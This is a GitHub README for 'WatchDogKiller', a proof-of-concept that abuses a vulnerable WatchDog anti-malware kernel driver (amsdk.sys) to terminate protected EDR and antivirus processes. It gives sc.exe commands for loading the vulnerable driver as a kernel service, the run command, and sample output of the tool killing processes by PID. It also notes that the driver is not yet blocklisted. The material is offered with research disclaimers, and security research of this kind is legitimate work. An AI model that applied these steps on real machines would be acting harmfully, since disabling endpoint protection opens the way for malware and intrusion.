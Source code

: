 # WatchDogKiller – Weaponizing the WatchDog Anti-Malware Driver Vulnerability

## 📖 Research Article
This repository is the Proof-of-Concept (PoC) accompanying my technical write-up on the WatchDog Anti-Malware (amsdk.sys) BYOVD vulnerability.  
👉 Full research available here: [Researching an APT Attack and Weaponizing It: The WatchDog BYOVD Story](https://medium.com/@jehadbudagga/researching-an-apt-attack-and-weaponizing-it-56daabee11c9)

---

## ⚡ Overview
The Silver Fox APT group leveraged a vulnerable Microsoft-signed driver (`wamsdk.sys`) in recent attacks to disable security products.  
I reversed the latest WatchDog driver (`amsdk.sys v1.1.100`) and discovered that the arbitrary process termination vulnerability was still exploitable.

The driver as of this date 11/9/2025 isnt listed on either LolDriver or HVCI blocked

This PoC demonstrates:
- Registering a process with the driver (`IOCTL_REGISTER_PROCESS`)
- Using the termination routine (`IOCTL_TERMINATE_PROCESS`)
- Bypassing the driver’s authorization mechanism
- Killing protected EDR/AV processes (Bitdefender, Sophos, Kaspersky, etc.)

---

## 🛠️ Usage
> ⚠️ **Disclaimer**: This code is for educational and research purposes only. Do not use it on systems you do not own.

1. Load the vulnerable driver:
   ```powershell
   sc.exe create killer binPath="C:\Path\To\wamsdk.sys" type=kernel
   sc.exe start killer
   ```

 2. Run the PoC
```
.\WatchDogKiller.exe

WatchDog EDR Terminator Tool @j3h4ck
================================================

Successfully opened Zam device
Attempting to register process 9444...
Successfully registered process 9444

Enter PID to terminate: 30724
Wait for process exit? (0 = No, 1 = Yes): 0

Attempting to terminate PID 30724...
Successfully sent terminate request for PID 30724
Terminate request completed successfully.

Enter PID to terminate:
```
## References
- Research Article: https://medium.com/p/56daabee11c9/  
- The Hacker News – Silver Fox Exploits Microsoft-Signed Driver: https://thehackernews.com/2025/09/silver-fox-exploits-microsoft-signed.html  

---

## Author
Jehad Abudagga  
- LinkedIn: https://www.linkedin.com/in/jehadabudagga/  
- GitHub: https://github.com/j3h4ck  

---

## Disclaimer
This project is released for educational and security research purposes only.  
The author does not endorse or condone the misuse of this information.
